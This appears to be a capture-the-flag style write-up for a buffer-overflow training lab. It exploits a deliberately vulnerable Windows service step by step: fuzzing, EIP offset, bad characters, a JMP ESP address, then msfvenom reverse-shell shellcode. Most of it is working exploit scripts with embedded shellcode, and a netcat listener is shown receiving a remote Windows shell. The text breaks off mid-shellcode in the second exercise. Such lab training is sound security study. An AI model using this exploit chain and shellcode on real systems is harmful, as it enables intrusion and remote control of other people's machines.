# Buffer Overflow Prep

# Cheat sheet

(Optionnal) Set working directory:

```python
!mona config -set workingfolder C:\Users\user\Desktop
```

Generate a byte array using `mona`, and exclude the null byte (\x00) by default:

```python
!mona bytearray -b "\x00"
```

Restart the `oscp.exe` and re-run the script. Compare the byte array with the memory: 

```python
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_ADDRESS>
```

Finding return instruction `JMP ESP` that doesn't contain bad chars:

```python
!mona jmp -r esp -cpb "\x00\x.."
```

Generate a shellcode:

```bash
msfvenom -p 'windows/shell_reverse_tcp' LHOST=$(vpnip) LPORT=443 EXITFUNC=thread -f 'python' --bad-chars="\x00\x.." --var-name shellcode
```

# Overflow 1

(Optionnal) Set working directory:

```python
!mona config -set workingfolder C:\Users\user\Desktop
```

Generate a byte array using `mona`, and exclude the null byte (\x00) by default:

```python
!mona bytearray -b "\x00"
```

Restart the `oscp.exe` and re-run the script. Compare the byte array with the memory: 

```python
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_ADDRESS>
```



```python
!mona compare -f C:\mona\oscp\bytearray.bin -a 01B9FA30
```


The first bad char is 0x07


The second bad char seems to be 0x2E


And the third one is 0xA0


Finding return instruction `JMP ESP`

```python
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```



```bash
**root@kali:~/thm/buffer-overflow-prep**# msfvenom -p 'windows/shell_reverse_tcp' LHOST=$(vpnip) LPORT=443 EXITFUNC=thread -f 'python' --bad-chars="\x00\x07\x2e\xa0" --var-name shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode =  b""
shellcode += b"\xdb\xc6\xd9\x74\x24\xf4\x58\xbd\x41\xc1\x11"
shellcode += b"\xef\x33\xc9\xb1\x52\x83\xe8\xfc\x31\x68\x13"
...
shellcode += b"\x86\x0e\x2d\xb9\x04\xba\xce\x3e\x14\xcf\xcb"
shellcode += b"\x7b\x92\x3c\xa6\x14\x77\x42\x15\x14\x52"
```

```python
#!/usr/bin/python3

import socket
import sys
from struct import pack

TARGET = "10.10.99.95"
PORT = 1337
OFFSET = 1978 # /usr/bin/msf-pattern_offset -q 6F43396E

def send_payload(payload, debug=False):
  try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, PORT))
    s.recv(1024)
    if debug:
      breakpoint()
    s.send(b"OVERFLOW1 " + payload)
    s.close()
  except:
    print("Could not establish a connection")
    sys.exit(0)

def fuzz():
  for i in range(0, 10000, 500):
    buffer = b"A" * i
    print("Fuzzing %s bytes" % i)
    send_payload(buffer, debug=False)

def eip_offset():
  # /usr/bin/msf-pattern_create -l 2500
  pattern = bytes(
      "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D",
      "utf-8",
  )

  send_payload(pattern)

def eip_control():
  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip

  send_payload(payload)

def bad_chars():
  # \x00\x07\x2e\xa0
  all_chars = bytes([
    0x01, 0x02, 0x03, 0x04, 0x05, 0x06,
    0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2F,
    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
    0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
  ])

  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip + all_chars

  send_payload(payload)

def exploit():
  # msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT EXITFUNC=thread -f 'python' --bad-chars="\x00\x07\x2e\xa0" --var-name shellcode
  shellcode =  b""
  shellcode += b"\xdb\xc6\xd9\x74\x24\xf4\x58\xbd\x41\xc1\x11"
  shellcode += b"\xef\x33\xc9\xb1\x52\x83\xe8\xfc\x31\x68\x13"
  shellcode += b"\x03\x29\xd2\xf3\x1a\x55\x3c\x71\xe4\xa5\xbd"
  shellcode += b"\x16\x6c\x40\x8c\x16\x0a\x01\xbf\xa6\x58\x47"
  shellcode += b"\x4c\x4c\x0c\x73\xc7\x20\x99\x74\x60\x8e\xff"
  shellcode += b"\xbb\x71\xa3\x3c\xda\xf1\xbe\x10\x3c\xcb\x70"
  shellcode += b"\x65\x3d\x0c\x6c\x84\x6f\xc5\xfa\x3b\x9f\x62"
  shellcode += b"\xb6\x87\x14\x38\x56\x80\xc9\x89\x59\xa1\x5c"
  shellcode += b"\x81\x03\x61\x5f\x46\x38\x28\x47\x8b\x05\xe2"
  shellcode += b"\xfc\x7f\xf1\xf5\xd4\xb1\xfa\x5a\x19\x7e\x09"
  shellcode += b"\xa2\x5e\xb9\xf2\xd1\x96\xb9\x8f\xe1\x6d\xc3"
  shellcode += b"\x4b\x67\x75\x63\x1f\xdf\x51\x95\xcc\x86\x12"
  shellcode += b"\x99\xb9\xcd\x7c\xbe\x3c\x01\xf7\xba\xb5\xa4"
  shellcode += b"\xd7\x4a\x8d\x82\xf3\x17\x55\xaa\xa2\xfd\x38"
  shellcode += b"\xd3\xb4\x5d\xe4\x71\xbf\x70\xf1\x0b\xe2\x1c"
  shellcode += b"\x36\x26\x1c\xdd\x50\x31\x6f\xef\xff\xe9\xe7"
  shellcode += b"\x43\x77\x34\xf0\xa4\xa2\x80\x6e\x5b\x4d\xf1"
  shellcode += b"\xa7\x98\x19\xa1\xdf\x09\x22\x2a\x1f\xb5\xf7"
  shellcode += b"\xfd\x4f\x19\xa8\xbd\x3f\xd9\x18\x56\x55\xd6"
  shellcode += b"\x47\x46\x56\x3c\xe0\xed\xad\xd7\x05\xf9\x8e"
  shellcode += b"\xb4\x72\xff\xd0\xbb\x39\x76\x36\xd1\x2d\xdf"
  shellcode += b"\xe1\x4e\xd7\x7a\x79\xee\x18\x51\x04\x30\x92"
  shellcode += b"\x56\xf9\xff\x53\x12\xe9\x68\x94\x69\x53\x3e"
  shellcode += b"\xab\x47\xfb\xdc\x3e\x0c\xfb\xab\x22\x9b\xac"
  shellcode += b"\xfc\x95\xd2\x38\x11\x8f\x4c\x5e\xe8\x49\xb6"
  shellcode += b"\xda\x37\xaa\x39\xe3\xba\x96\x1d\xf3\x02\x16"
  shellcode += b"\x1a\xa7\xda\x41\xf4\x11\x9d\x3b\xb6\xcb\x77"
  shellcode += b"\x97\x10\x9b\x0e\xdb\xa2\xdd\x0e\x36\x55\x01"
  shellcode += b"\xbe\xef\x20\x3e\x0f\x78\xa5\x47\x6d\x18\x4a"
  shellcode += b"\x92\x35\x38\xa9\x36\x40\xd1\x74\xd3\xe9\xbc"
  shellcode += b"\x86\x0e\x2d\xb9\x04\xba\xce\x3e\x14\xcf\xcb"
  shellcode += b"\x7b\x92\x3c\xa6\x14\x77\x42\x15\x14\x52"
  buffer = b"A" * OFFSET
  eip = pack("<L", 0x625011AF) # jmp_esp
  nop = b"\x90" * 32
  payload = buffer + eip + nop + shellcode

  send_payload(payload)

#fuzz()
#eip_offset()
#eip_control()
#bad_chars()
exploit()
```

```bash
**root@kali:~/thm/buffer-overflow-prep**# nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.35.147] from (UNKNOWN) [10.10.99.95] 49287
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>
```

---

# Overflow 2

## Fuzzing

```python
#!/usr/bin/python3

import socket
import sys

TARGET = "10.10.193.165"
PORT = 1337

def send_payload(payload, debug=False):
  try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, PORT))
    s.recv(1024)
    if debug:
      breakpoint()
    s.send(b"OVERFLOW2 " + payload)
    s.close()
  except:
    print("Could not establish a connection")
    sys.exit(0)

def fuzz():
  for i in range(0, 10000, 500):
    buffer = b"A" * i
    print("Fuzzing %s bytes" % i)
    send_payload(buffer, debug=False)
```


## Controlling `EIP` (calculating the offset)

```bash
$ /usr/bin/msf-pattern_create -l 1500
```

```python
def eip_offset():
  # /usr/bin/msf-pattern_create -l 1500
  pattern = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9", "utf-8")

  send_payload(pattern)
```



```bash
$ /usr/bin/msf-pattern_offset -q 76413176
[*] Exact match at offset 634
```

```python
OFFSET = 634 # /usr/bin/msf-pattern_offset -q 76413176
def eip_control():
  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip

  send_payload(payload)
```



## Identifying bad characters

(Optionnal) Set working directory:

```python
!mona config -set workingfolder C:\Users\admin\Desktop
```

Generate a byte array using `mona`, and exclude the null byte (\x00) by default:

```python
!mona bytearray -b "\x00"
```

Restart the `oscp.exe` and re-run the script. 

```python
def bad_chars():
  # \x00\x
  all_chars = bytes([
    0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
    0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
    0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
  ])

  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip + all_chars

  send_payload(payload)
```



Compare the byte array with the memory: 

```python
!mona compare -f C:\Users\admin\Desktop\bytearray.bin -a 017EFA30
```



If we remove all "second" characters (0x24, 0x3d, 0x84 and 0xbb) we have the following list of bad characters: \x00\x23\x3c\x83\xba

## Finding a return instruction

```python
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```



0x625011D3 seems to be a good candidate.

## Jumping to shell code

```bash
msfvenom -p 'windows/shell_reverse_tcp' LHOST=$(vpnip) LPORT=443 EXITFUNC=thread -f 'python' --bad-chars="\x00\x23\x3c\x83\xba" --var-name shellcode
```

```python
def exploit():
  #  msfvenom -p 'windows/shell_reverse_tcp' LHOST=$(vpnip) LPORT=443 EXITFUNC=thread -f 'python' --bad-chars="\x00\x23\x3c\x83\xba" --var-name shellcode
  shellcode =  b""
  shellcode += b"\xfc\xbb\x51\x8d\xf6\x39\xeb\x0c\x5e\x56\x31"
  shellcode += b"\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef"
  shellcode += b"\xff\xff\xff\xad\x65\x74\x39\x4d\x76\x19\xb3"
  shellcode += b"\xa8\x47\x19\xa7\xb9\xf8\xa9\xa3\xef\xf4\x42"
  shellcode += b"\xe1\x1b\x8e\x27\x2e\x2c\x27\x8d\x08\x03\xb8"
  shellcode += b"\xbe\x69\x02\x3a\xbd\xbd\xe4\x03\x0e\xb0\xe5"
  shellcode += b"\x44\x73\x39\xb7\x1d\xff\xec\x27\x29\xb5\x2c"
  shellcode += b"\xcc\x61\x5b\x35\x31\x31\x5a\x14\xe4\x49\x05"
  shellcode += b"\xb6\x07\x9d\x3d\xff\x1f\xc2\x78\x49\x94\x30"
  shellcode += b"\xf6\x48\x7c\x09\xf7\xe7\x41\xa5\x0a\xf9\x86"
  shellcode += b"\x02\xf5\x8c\xfe\x70\x88\x96\xc5\x0b\x56\x12"
  shellcode += b"\xdd\xac\x1d\x84\x39\x4c\xf1\x53\xca\x42\xbe"
  shellcode += b"\x10\x94\x46\x41\xf4\xaf\x73\xca\xfb\x7f\xf2"
  shellcode += b"\x88\xdf\x5b\x5e\x4a\x41\xfa\x3a\x3d\x7e\x1c"
  shellcode += b"\xe5\xe2\xda\x57\x08\xf6\x56\x3a\x45\x3b\x5b"
  shellcode += b"\xc4\x95\x53\xec\xb7\xa7\xfc\x46\x5f\x84\x75"
  shellcode += b"\x41\x98\xeb\xaf\x35\x36\x12\x50\x46\x1f\xd1"
  shellcode += b"\x04\x16\x37\xf0\x24\xfd\xc7\xfd\xf0\x52\x97"
  shellcode += b"\x51\xab\x12\x47\x12\x1b\xfb\x8d\x9d\x44\x1b"
  shellcode += b"\xae\x77\xed\xb6\x55\x10\x18\x4c\x76\x73\x74"
